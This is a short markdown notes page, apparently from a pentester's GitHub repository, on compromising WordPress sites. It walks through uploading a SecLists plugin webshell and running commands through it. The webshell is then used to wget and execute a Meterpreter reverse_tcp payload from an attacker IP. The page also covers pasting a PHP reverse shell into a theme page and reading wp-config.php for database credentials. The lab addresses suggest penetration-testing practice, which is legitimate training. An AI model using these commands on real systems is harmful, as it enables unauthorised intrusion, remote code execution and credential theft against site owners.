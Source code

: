 ## WordPress Lessons

Some things I learned dealing with WordPress pages

- Default admin landing is DOMAN/wp-admin
- Once logged into the domain console,  check out Tools->Site health->Info Tab to get Server and DB information
  - Check DB IP Address to see if it's on the same server
  - Check PHP version

### PHP Shells

#### Plugin Shell

Seclists contains malicious plugins to use with apps like WordPress

```bash
sudo apt install seclists
```

WordPress shell plugin is in `/usr/share/seclists/Web-Shells/WordPress/plugin-shell.php`

REMEMBER TO ZIP PLUGINS!  WordPress expects a zip file

Upload the file to WordPress and access it, normally at `http://SITE.COM/wp-content/plugins/SHELLNAME/SHELLNAME.php`

Test the shell with an id command to see if it returns output:

```bash
http://SITE.COM/wp-content/plugins/SHELLNAME/SHELLNAME.php?cmd=id
```

At this point, you probably want to upload an exploit and run it:

```bash
# Start the listener
sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 443; run"
# Have the server get the exploit from your hosted site
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.216/met.elf
# make the exploit executable
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2Bx%20met.elf
# Run it
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./met.elf
```

#### Using Themes

You can modify a theme page and insert php code into it, then load that page on the site.

1. Modify themes through `Appearance->Editor`, then choose a good candidate like `Archives`
2. Delete all text on the page and paste a PHP reverse shell code (such as `/usr/share/webshells/php/php-reverse-shell.php` or PentestMonkey's)
3. Start a listener (like netcat or msf's multi-handler tcp listener)
4. Visit the modified page `http://10.11.1.234/wp-content/themes/twentytwelve/archive.php`

### Grab the Database Info!

The Database may be stored on another server.  If you can get CLI access, check out /var/www/html/wp-config.php to find the DB user and password.

